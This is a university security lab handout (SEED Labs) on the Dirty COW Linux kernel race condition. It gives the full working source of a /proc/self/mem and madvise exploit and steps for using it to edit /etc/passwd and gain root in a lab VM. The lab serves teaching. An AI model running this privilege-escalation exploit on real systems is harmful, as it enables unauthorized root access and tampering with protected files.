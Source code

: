 # Dirty COW Attack Lab

```
Copyright © 2017 by Wenliang Du.
This work is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International
License. If you remix, transform, or build upon the material, this copyright notice must be left intact, or
reproduced in a way that is reasonable to the medium in which the work is being re-published.
```
## 1 Overview

The Dirty COW vulnerability is an interesting case of the race condition vulnerability. It existed in the
Linuxkernel since September 2007, and was discovered and exploited in October 2016. The vulnerability
affects allLinux-based operating systems, including Android, and its consequence is very severe: attackers
can gain the root privilege by exploiting the vulnerability. The vulnerability resides in the code of copy-on-
write insideLinuxkernel. By exploiting this vulnerability, attackers can modify any protected file, even
though these files are only readable to them.
The objective of this lab is for students to gain the hands-on experience on the Dirty COW attack,
understand the race condition vulnerability exploited by the attack, and gain a deeper understanding of the
general race condition security problems. In this lab, students will exploit the Dirty COW race condition
vulnerability to gain the root privilege.

Readings and videos. Detailed coverage of the Dirty COW attack can be found in the following:

- Chapter 8 of the SEED Book,Computer & Internet Security: A Hands-on Approach, 2nd Edition, by
    Wenliang Du. See details athttps://www.handsonsecurity.net.
- Section 7 of the SEED Lecture at Udemy,Computer Security: A Hands-on Approach, by Wenliang
    Du. See details athttps://www.handsonsecurity.net/video.html.

Lab environment. This lab has been tested on our pre-built Ubuntu 12.04 VM, which can be downloaded
from the SEED website. If you are using our SEEDUbuntu 16.04 VM, this attack will not work, because
the vulnerability has already been patched in the kernel. You can download the SEEDUbuntu12.04 VM
from the SEED web site. If you have an Amazon EC2 account, you can find our VM from the “Community
AMIs”. The name of the VM isSEEDUbuntu12.04-Generic. It should be noted that Amazon’s site
says that this is a 64-bit VM; that is incorrect. The VM is 32-bit. However, this incorrect information does
not cause any problem.

## 2 Task 1: Modify a Dummy Read-Only File

The objective of this task is to write to a read-only file using the Dirty COW vulnerability.

### 2.1 Create a Dummy File

We first need to select a target file. Although this file can be any read-only file in the system, we will use
a dummy file in this task, so we do not corrupt an important system file in case we make a mistake. Please
create a file calledzzzin the root directory, change its permission to read-only for normal users, and put
some random content into the file using an editor such asgedit.


$ sudo touch /zzz
$ sudo chmod 644 /zzz
$ sudo gedit /zzz
$ cat /zzz
111111222222333333
$ ls -l /zzz
-rw-r--r-- 1 root root 19 Oct 18 22:03 /zzz
$ echo 99999 > /zzz
bash: /zzz: Permission denied

From the above experiment, we can see that if we try to write to this file as a normal user, we will fail,
because the file is only readable to normal users. However, because of the Dirty COW vulnerability in the
system, we can find a way to write to this file. Our objective is to replace the pattern"222222"with
"******".

### 2.2 Set Up the Memory Mapping Thread

You can download the programcowattack.cfrom the website of the lab. The program has three threads:
the main thread, the write thread, and the madvise thread. The main thread maps/zzzto memory, finds
where the pattern"222222"is, and then creates two threads to exploit the Dirty COW race condition
vulnerability in the OS kernel.

Listing 1: The main thread
/* cow_attack.c (the main thread) */

#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;

int main(int argc, char *argv[])
{
pthread_t pth1,pth2;
struct stat st;
int file_size;

```
// Open the target file in the read-only mode.
int f=open("/zzz", O_RDONLY);
```
```
// Map the file to COW memory using MAP_PRIVATE.
fstat(f, &st);
file_size = st.st_size;
map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
```
```
// Find the position of the target area
char *position = strstr(map, "222222"); ¿
```
```
// We have to do the attack using two threads.
pthread_create(&pth1, NULL, madviseThread, (void *)file_size); ¡
```

```
pthread_create(&pth2, NULL, writeThread, position); ¬
```
// Wait for the threads to finish.
pthread_join(pth1, NULL);
pthread_join(pth2, NULL);
return 0;
}

In the above code, we need to find where the pattern"222222"is. We use a string function called
strstr()to find where"222222"is in the mapped memory (Line¿). We then start two threads:
madviseThread(Line¡) andwriteThread(Line¬).

### 2.3 Set Up the write Thread

The job of thewritethread listed in the following is to replace the string"222222"in the memory with
"******". Since the mapped memory is of COW type, this thread alone will only be able to modify the
contents in a copy of the mapped memory, which will not cause any change to the underlying/zzzfile.

Listing 2: Thewritethread
/* cow_attack.c (the write thread) */

void *writeThread(void*arg)
{
char *content= "******";
off_t offset = (off_t) arg;

int f=open("/proc/self/mem", O_RDWR);
while(1) {
// Move the file pointer to the corresponding position.
lseek(f, offset, SEEK_SET);
// Write to the memory.
write(f, content, strlen(content));
}
}

### 2.4 The madvise Thread

Themadvisethread does only one thing: discarding the private copy of the mapped memory, so the page
table can point back to the original mapped memory.

Listing 3: Themadvisethread
/* cow_attack.c (the madvise thread) */

void *madviseThread(void*arg)
{
int file_size = (int) arg;
while(1){
madvise(map, file_size, MADV_DONTNEED);
}
}


### 2.5 Launch the Attack

If thewrite()and themadvise()system calls are invoked alternatively, i.e., one is invoked only after
the other is finished, thewriteoperation will always be performed on the private copy, and we will never
be able to modify the target file. The only way for the attack to succeed is to perform themadvise()
system call while thewrite()system call is still running. We cannot always achieve that, so we need
to try many times. As long as the probability is not extremely low, we have a chance. That is why in the
threads, we run the two system calls in an infinite loop. Compile thecowattack.cand run it for a few
seconds. If your attack is successful, you should be able to see a modified/zzzfile. Report your results in
the lab report and explain how you are able to achieve that.

$ gcc cow_attack.c -lpthread
$ a.out
... press Ctrl-C after a few seconds ...

## 3 Task 2: Modify the Password File to Gain the Root Privilege

Now, let’s launch the attack on a real system file, so we can gain the root privilege. We choose the
/etc/passwdfile as our target file. This file is world-readable, but non-root users cannot modify it.
The file contains the user account information, one record for each user. Assume that our user name is
seed. The following lines show the records for root andseed:

root:x:0:0:root:/root:/bin/bash
seed:x:1000:1000:Seed,123,,:/home/seed:/bin/bash

Each of the above record contains seven colon-separated fields. Our interest is on the third field, which
specifies the user ID (UID) value assigned to a user. UID is the primary basis for access control inLinux,
so this value is critical to security. The root user’s UID field contains a special value 0; that is what makes
it the superuser, not its name. Any user with UID 0 is treated by the system as root, regardless of what user
name he or she has. Theseeduser’s ID is only 1000 , so it does not have the root privilege. However,
if we can change the value to 0 , we can turn it into root. We will exploit the Dirty COW vulnerability to
achieve this goal.
In our experiment, we will not use theseedaccount, because this account is used for most of the
experiments in this book; if we forget to change the UID back after the experiment, other experiments will
be affected. Instead, we create a new account calledcharlie, and we will turn this normal user into root
using the Dirty COW attack. Adding a new account can be achieved using theaddusercommand. After
the account is created, a new record will be added to/etc/passwd. See the following:

$ sudo adduser charlie
...
$ cat /etc/passwd | grep charlie
charlie:x:1001:1001:,,,:/home/charlie:/bin/bash

We suggest that you save a copy of the/etc/passwdfile, just in case you make a mistake and corrupt
this file. An alternative is to take a snapshot of your VM before working on this lab, so you can always roll
back if the VM got corrupted.

Task: You need to modify thecharlie’s entry in/etc/passwd, so the third field is changed from
1001 to 0000 , essentially turningcharlieinto a root account. The file is not writable tocharlie, but


we can use the Dirty COW attack to write to this file. You can modify thecowattack.cprogram from
Task 1 to achieve this goal.
After your attack is successful, if you switch user tocharlie, you should be able to see the#sign at
the shell prompt, which is an indicator of the root shell. If you run theidcommand, you should be able to
see that you have gained the root privilege.

seed@ubuntu$ su charlie
Passwd:
root@ubuntu# id
**uid=0(root)** gid=1001(charlie) groups=0(root),1001(charlie)

## 4 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.


